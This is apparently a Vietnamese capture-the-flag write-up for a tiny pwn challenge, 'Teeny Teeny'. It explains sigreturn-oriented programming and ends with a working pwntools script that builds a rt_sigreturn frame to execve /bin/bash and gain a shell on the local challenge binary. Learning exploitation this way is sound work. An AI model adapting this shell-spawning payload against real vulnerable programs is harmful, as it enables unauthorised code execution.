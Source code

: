 # Teeny Teeny

chall đầu tiên mình sử dụng **kĩ thuật SROP** :)))

làm chall này ta khỏi cần dùng ida luôn vì có cái gì để xem đâu :)))

![image](https://github.com/gookoosss/CTF/assets/128712571/25e95a3f-7b01-48ae-94c0-98253aeee500)


**chương trình chỉ ngắn như vậy thôi**

từ đầu đến syscall thì đang thiết lập **syscall read** cho phép ta nhập vào rsi

nhìn đi nhìn lại thì cũng **chỉ có syscall và pop rax là có ích cho ta khai thác**, vì vậy ta **nghĩ ngay đến kĩ thuật SROP với syscall rt_sigreturn** ta có thể setup được

sau khi đọc wu từ nhiều nguồn thì **mình thấy chương trình ko có /bin/sh nhưng mà có thể dùng /bin/bash cũng được**

![image](https://github.com/gookoosss/CTF/assets/128712571/eb5517d8-deb4-4c6e-a861-4870b7608248)


bây giờ ta đã có đầy đủ thứ mình cần rồi á, viết script và lấy shell thôi

## script:

```python 
from pwn import *

p = process('./teeny')
exe  = ELF('./teeny')

context.binary = exe

# gdb.attach(p, gdbscript = '''
# b*0x0000000000040015
# c
# ''')

# input()

binbash = 0x40238
pop_rax = 0x0000000000040018
syscall = 0x0000000000040015
ret = 0x0000000000040017

### execve

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rsi = 0
frame.rdx = 0
frame.rdi = binbash
frame.rip = syscall

### payload

payload = b'a'*8 #offset đến ret

payload += p64(pop_rax) + p64(0xf) + p64(syscall) # rt_sigreturn syscall

payload += bytes(frame) ### execve

p.send(payload)

p.interactive()
```
